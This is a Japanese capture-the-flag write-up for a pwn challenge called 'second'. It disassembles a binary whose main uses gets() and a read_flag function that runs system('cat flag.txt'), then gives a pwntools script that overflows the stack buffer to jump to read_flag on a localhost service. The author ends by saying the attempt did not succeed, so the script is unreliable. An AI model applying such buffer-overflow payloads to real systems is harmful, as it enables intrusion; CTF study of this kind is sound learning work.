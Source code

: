 # second 

## access

```
nc localhost 4102
```

main関数が定義されているので読む  
read_flagとかいうめっちゃそれっぽいやつもある

```Assembly:main

[0x004010f0]> pdf @main
            ; DATA XREF from entry0 @ 0x401111
┌ 53: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x20
│           0x004011f4      f30f1efa       endbr64
│           0x004011f8      55             push rbp
│           0x004011f9      4889e5         mov rbp, rsp
│           0x004011fc      4883ec20       sub rsp, 0x20
│           0x00401200      488d3d0a0e00.  lea rdi, str.buf            ; 0x402011 ; "buf <" ; const char *format
│           0x00401207      b800000000     mov eax, 0
│           0x0040120c      e88ffeffff     call sym.imp.printf         ; int printf(const char *format)
│           0x00401211      488d45e0       lea rax, [s]
│           0x00401215      4889c7         mov rdi, rax                ; char *s
│           0x00401218      b800000000     mov eax, 0
│           0x0040121d      e89efeffff     call sym.imp.gets           ; char *gets(char *s)
│           0x00401222      b800000000     mov eax, 0
│           0x00401227      c9             leave
└           0x00401228      c3             ret

```

rbp-0x20までスタック領域が確保されている  
変数が1つ、[s]がある

buf <を出力してる  
gets関数で入力を[s]に読み込んでる 
くらいのことがわかる

read_flag関数を読む
```Assembly:read_flag

[0x004011d6]> pdf
┌ 30: sym.read_flag ();
│           0x004011d6      f30f1efa       endbr64
│           0x004011da      55             push rbp
│           0x004011db      4889e5         mov rbp, rsp
│           0x004011de      488d3d1f0e00.  lea rdi, str.cat_flag.txt   ; 0x402004 ; "cat flag.txt" ; const char *string
│           0x004011e5      e8a6feffff     call sym.imp.system         ; int system(const char *string)
│           0x004011ea      bf00000000     mov edi, 0                  ; int status
└           0x004011ef      e8ecfeffff     call sym.imp.exit           ; void exit(int status)


```

``system("cat flag.txt")``するだけ  
この関数を呼び出せばflagに近づける...かもしれない

read_flag関数を起動しようにも呼び出す部分がない...

main関数の変数は、
```
; var char *s @ rbp-0x20
```
[s]はrbp-0x20のようにスタックが確保されている  
[s]への入力を使ってmain関数のリターンアドレスをread_flag関数のアドレスに書き換えれば起動できるかもしれない

バイトオーダはリトルエンディアンでスタック1段の大きさが8バイトであり、それに合わせてペイロードを作る

```python:solve.py
from pwn import *

io = remote('localhost', 4102)
io.sendline("a"*40 + "\xd6\x11\x40\x00\x00\x00\x00\x00")
io.interactive()
```

できませんでした!